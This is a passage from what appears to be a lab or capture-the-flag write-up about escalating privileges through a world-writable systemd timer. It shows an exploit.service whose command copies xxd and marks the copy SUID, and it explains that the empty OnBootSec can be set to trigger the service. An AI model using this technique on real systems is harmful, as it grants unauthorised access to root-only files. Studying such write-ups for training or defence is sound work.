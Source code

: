 ![systemd](./screenshots/systemd.png)

> The list is large, but I'm interested in two custom files - **exploit.service** and **exploit.timer**
> **exploit.timer** specifies when and which .service will be launched.
> **exploit.service** - what exactly will be executed.

> Contents of **exploit.timer**:

```bash

[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=

[Install]
WantedBy=timers.target

```

> I see that the **OnBootSec** parameter is missing in the [Timer] section, which specifies after how long to start .service.
> the file has **rwx** rights for all users, so i can edit it and set **1s**, for example.

> Contents of **exploit.service**:


```bash

[Unit]
Description=Exploit Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"

```
